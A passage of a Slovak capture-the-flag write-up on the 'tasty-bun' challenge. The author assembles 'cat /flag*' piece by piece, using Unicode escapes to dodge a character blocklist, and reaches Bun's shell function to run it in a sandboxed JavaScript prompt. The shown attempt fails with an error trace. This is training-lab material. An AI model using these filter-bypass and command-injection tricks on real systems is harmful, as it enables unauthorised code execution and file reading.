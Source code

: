 Vyzerá, že áno. A dokonca aj `$1` akceptuje ako premennú, čo je super, lebo ušetrím písmenko.

skúsim vykonať `cat /flag*`

```
tasty-bun> $1=`ca`
ca
tasty-bun> $1+=`t /`
🍩 Sorry, we can't bake with these ingredients! -aha, zakázané /
tasty-bun> $1+=`t \u002f`
🍩 Sorry, we can't bake with these ingredients! - t,u,f - 3 písmená
tasty-bun> $1+=`t `
cat
tasty-bun> $1+=`\u002f`
cat /
tasty-bun> $1+=`fl`
cat /fl
tasty-bun> $1+=`ag`
cat /flag
tasty-bun> $1+=`*`
cat /flag*
tasty-bun> $666 = \u0042\u0075\u006e.$ - priradím si funkciu shell pod $666
[object Function]
tasty-bun> $666`${$1}`
🥞 Oops! The bun fell flat: ShellError: Failed with exit code 1
```

Ach... Niečo sa pokazilo.. Možno Bun shell nespracoval cat /flag* ako cat + argument, ale celé ako jeden príkaz

```
Error during baking:  7 |   class ShellError extends Error {
 8 |     #output = @undefined;
 9 |     info;
10 |     exitCode;
11 |     stdout;
12 |     constructor() {
                    ^
ShellError: Failed with exit code 1
 exitCode: 1,
   stdout: Buffer(0) [],
   stderr: Buffer(35) [ 98, 117, 110, 58, 32, 99, 111, 109, 109, 97, 110, 100, 32, 110, 111, 116, 32, 102, 111, 117, 110, 100, 58, 32, 99, 97, 116, 32, 47, 102, 108, 97, 103, 42, 10 ],

      at new ShellError (12:16)
      at new ShellPromise (77:16)
      at BunShell (193:35)
      at eval (file:///app/tastybun.js:1:3)
      at <anonymous> (/app/tastybun.js:6:16)
      at bake (/app/tastybun.js:5:21)
      at <anonymous> (/app/tastybun.js:52:30)
      at <anonymous> (/app/tastybun.js:36:30)
      at emit (node:events:89:22)
```
